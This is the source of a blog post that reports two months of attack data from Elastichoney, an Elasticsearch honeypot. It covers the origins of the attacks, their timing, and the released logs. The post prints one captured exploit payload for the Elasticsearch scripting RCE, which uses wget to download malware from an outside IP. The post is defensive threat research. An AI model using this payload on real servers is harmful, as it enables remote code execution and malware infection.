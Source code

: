 ```yaml
---
layout: post
title: "60 Days of Watching Hackers Attack Elasticsearch"
date: 2015-05-11 20:00:00
comments: true
published: true
categories:
- elastichoney
- elasticsearch
- honeypot
---
```

<img src="{{root_url}}/images/headers/elk_results.png"/>
### Introduction
Two months ago, one of my DigitalOcean instances started attacking another host with massive amounts of bogus traffic. I was notified by the abuse team at DO that my VPS was participating in a DDoS attack. I managed to track down that the attackers leveraged an [RCE vulnerability in Elasticsearch](/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/) to automatically download and run malware.

After re-building the box from scratch (with many improvements!), I [created a honeypot](/blog/2015/03/23/introducing-elastichoney-an-elasticsearch-honeypot/) called Elastichoney to measure how much this vulnerability is being exploited in the wild. Since then, I've had multiple sensors silently logging all attempts to exploit this vulnerability.

Here are the results.
<!--more-->
### Who's Attacking Me?

[Elastichoney](https://github.com/jordan-wright/elastichoney) keeps track of quite a bit of data, including the source IP and payload sent to the sensor. I logged every attack to an Elasticsearch instance (have some irony - free of charge!) and enriched the data with geoip information using Logstash. Finally, I created a slick dashboard using Kibana to view the results.

So far, I've had around 8k attempts to attack the honeypots from over 300 unique IP addresses. One of the immediate things I noticed was thing a vast majority (over 93%) of attacks were coming from Chinese IP addresses:

<img src="{{root_url}}/images/blog/elastichoney_elk/map.png"/>

The second thing that I noticed was how fast the majority of exploit attempts died down. Here's a histogram of attack attempts since the sensors have been running:

<img src="{{root_url}}/images/blog/elastichoney_elk/histogram.png"/>

You'll notice a spike between March 20<sup>th</sup> and April 11<sup>th</sup>. These attacks came from a few Chinese IP addresses that all stopped their attacks at the same time. But hey, attacks come in, attacks go out. [You can't explain that.](http://cdn.meme.am/instances/500x/58834359.jpg)

### What are the Attackers Doing?
I mentioned that Elastichoney logs the payload sent to the sensor. In some cases, these were attempts to run boring commands like ```whoami```, etc. However, in quite a few cases, the malware attempted to use ```wget``` to download and run malware - similar to what happened to my DO instance.

These looked something like this:

```
source={"query":+{"filtered":+{"query":+{"match_all":+{}}}},+"script_fields":+{"exp":+{"script":+"import+java.util.*;import+java.io.*;String+str+=+\"\";BufferedReader+br+=+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec(\"wget+-O+/tmp/zuosyn+http://115.28.216.181:995/zuosyn\").getInputStream()));StringBuilder+sb+=+new+StringBuilder();while((str=br.readLine())!=null){sb.append(str);sb.append(\"\r\n\");}sb.toString();"}},+"size":+1}
```

These malware samples were generally nothing more than basic bots. They could be compiled ELF binaries, or simple Perl scripts. While we're working to let Elastichoney automatically download these malware samples, for now the data is in the logs. Speaking of logs...

### The Raw Data
I'm a fan of open-sourcing as much information as possible if it helps the community. As such, I've decided to release all the logs I currently have.

You can download the raw JSON logs [here](/downloads/elastichoney_logs.json.gz). Here's an example log to show how the logs are structured:

``` json
{
    "source": "222.186.56.46",
    "@timestamp": "2015-05-10T15:44:56.803Z",
    "url": "x.x.x.x:9200/_search?",
    "method": "GET",
    "form": "form_payload",
    "payload": "json_payload",
    "headers": {
        "user_agent": "python-requests/2.4.1 CPython/2.7.8 Windows/2003Server",
        "host": "x.x.x.x:9200",
        "content_type": "",
        "accept_language": ""
    },
    "type": "attack",
    "honeypot": "x.x.x.x",
    "@version": "1",
    "host": "127.0.0.1:39642",
    "name": "Python Requests",
    "os": "Windows",
    "os_name": "Windows",
    "device": "Other",
    "major": "2",
    "minor": "4",
    "geoip": {
        "ip": "222.186.56.46",
        "country_code2": "CN",
        "country_code3": "CHN",
        "country_name": "China",
        "continent_code": "AS",
        "region_name": "04",
        "city_name": "Nanjing",
        "latitude": 32.0617,
        "longitude": 118.77780000000001,
        "timezone": "Asia/Shanghai",
        "real_region_name": "Jiangsu",
        "location": [118.77780000000001, 32.0617]
    }
}
```
As always, let me know if you have any questions or comments below!

Enjoy!

-Jordan ([@jw_sec](https://twitter.com/jw_sec))
